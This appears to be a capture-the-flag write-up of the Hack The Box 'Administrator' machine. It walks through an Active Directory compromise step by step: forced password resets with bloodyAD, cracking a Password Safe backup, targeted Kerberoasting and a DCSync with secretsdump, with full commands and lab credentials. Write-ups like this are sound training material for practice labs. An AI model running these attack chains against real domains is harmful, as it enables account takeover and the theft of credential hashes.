Administrator is a Medium rated Box that is purely Active Directory. You start off the box with Domain credentials. Using bloodhound I found out that user I have has GenericAll rights over a user that modifies another users password. Where that user has access to an FTP share where you can get access to another user. This user has GenericWrite over another user which you'll be able to perform a Kerberoasting attack. And finally you'll be able to perform a DCSync Attack.

sudo nmap -sVC -p- -v -T5 <ip>This box looks like a domain controller (Kerberos, LDAP, SMB). I also notice ftp is open which isn't standard. And WinRM is also open.
I added administrator.htb to my /etc/hosts file
I then enumerated Olivas Shares (the user we have credentials for)

nxc smb <ip> -u 'Olivia' -p 'ichliebedich' --sharesI didn't find anything interesting here, so my next thought process was to spin up bloodhound.

nxc ldap <ip> -u 'Olivia' -p 'ichliebedich' --bloodhound -c all --dns-server <ip>The first thing I noticed was that Olivia has GenericAll rights to Michael.

My next step was to get access to the Michael User and how I achieved that was changing his password. The reason I was able to change his password was because I had GenericAll rights. I used a tool called BloodyAD, and this is the command I used to achieve that.

bloodyAD --dc-ip 10.129.11.241 --host Administrator.htb -u 'Olivia' -p 'ichliebedich' set password Michael Password123-BloodyAD: Python-based tool used to interact with Active Directory and exploit common misconfigurations.--dc-ip 10.129.11.241: IP address of the Domain Controller.--host Administrator.htb: Hostname of the target machine.-u 'Olivia': Authenticating as the user 'Olivia'.-p 'ichliebedich': Olivia's password for authentication.set password Michael Password123-: Changes Michael's password to Password123-.To confirm that this worked I ran netexec and was able to authenticate

After authenticating as Michael, I went back to bloodhound and checked if there were any outbound object controls. And there was, Michael had ForceChangePassword to the user Benjamin.
With this privilege over Benjamin I can repeat the same password change attack. So that's what I did.
bloodyAD --dc-ip 10.129.11.241 --host Administrator.htb -u 'Michael' -p 'Password123-' set password Benjamin NewPass123-
Once again just to make sure that it worked, I ran netexec.

After I was able to confirm that it worked, I was a bit confused after this part, I went back to bloodhound and couldn't find any outbound object controls. So I went back to my nmap scan and saw that ftp was open, so I tried Benjamin's new credentials and saw a file called Backup.psafe3

I wasn't familiar with .psafe3 file was so I did some research and found out that it's an encrypted database file used by the Password Safe password manager to store passwords and other sensitive data. To be able to open this we need to download passwordsafe:
sudo apt install passwordsafeOnce it downloaded I did pwsafe Backup.psafe3 to open the database file, but was prompted a password.

Luckily there's a tool that we can use to attempt to crack the password. The tool is called pwsafe2john which is a tool from the John the Ripper suite specifically designed to read a PasswordSafe (.psafe3) file and convert its password hash into a format john can understand.
pwsafe2john Backup.psafe3 > hash.txt
Now we can crack the hash and hopefully get the password.
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
As you can see, John cracked the hash and found the password tekieromuncho
Now lets open the file.
pwsafe Backup.psafe3
Once logged in we see three new potential users.

Right clicking on each name gives you the ability to copy the password, so what I did was open up a file and copied all the credentials in a file.

After doing that I tried each username and password with evil-winrm to see if I was able to get a shell.
After trying each username and password I was able to log into Emily's account and found the user.txt flag.

Now its time for privilege escalation. Going back to Bloodhound we see that the user Emily has GenericWrite over the user Ethan.

Doing some research and how we can abuse the GenericWrite privilege I learned that we can set a Service Principal Name (SPN) on the user account Ethan and then perform a targeted kerberoast attack. This is the article that I found that helped me with performing this attack: https://www.hackingarticles.in/genericwrite-active-directory-abuse/
My first step was to clone the github repository that had the targetedKerberoast.py script.
git clone https://github.com/ShutdownRepo/targetedKerberoast.git
cd targetedKerberoastAfter downloading the script I ran this command:
python3 targetedKerberoast.py --dc-ip '<ip>' -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTjXmb'--dc-ip: Domain controller IP-v: Verbose — show all the technical details-d: The target domain-u: The user account you are authenticating as-p: The password for the user emilybut I got a KRB_AP_ERR_SKEW error, which is a very common kerberos issue.

I did some research on this and fixed it with these commands:
sudo timedatectl set-ntp off
rdate -n [IP of Target]After doing this, I then reran the command and got Ethan's hash

Once I got the hash I put it into a file and cracked it with John


The password I got was limpbizkit
Once again to make sure that the credentials are right I ran it against netexec.
nxc smb <ip> -u 'ethan' -p 'limpbizkit'
After I saw that the credentials worked, I went back to bloodhound to see if Ethan had outbound object controls, and he did. He had GetChangesInFilteredSet, GetChanges, GetChangesAll.
Seeing these privileges, I knew that the user Ethan can perform a DCSync Attack. A DCSync attack is an attack technique in which an attacker impersonates a legitimate domain controller (DC) to trick other DCs into providing copies of sensitive Active Directory (AD) data, including user password hashes.

These three permissions, when combined, tell Active Directory that the user ETHAN is allowed to replicate data from the Domain Controller, just as if he were another Domain Controller.
We can perform this attack using secretsdump.py from Impacket.
secretsdump.py -just-dc -outputfile administrator_hashes administrator.htb/ethan:limpbizkit@10.129.10.120secretsdump.py: The Impacket script for dumping secrets.-just-dc: Only perform a DCSync attack — don't dump SAM or LSA.-outputfile administrator_hashes: Saves the dumped output to a file.administrator.htb/ethan:limpbizkit: Domain, user, and password.@10.129.10.120: The Domain Controller IP.
And it worked! We got the Administrator's hash, with this we can log into evil-winrm with the hash and get the root flag.
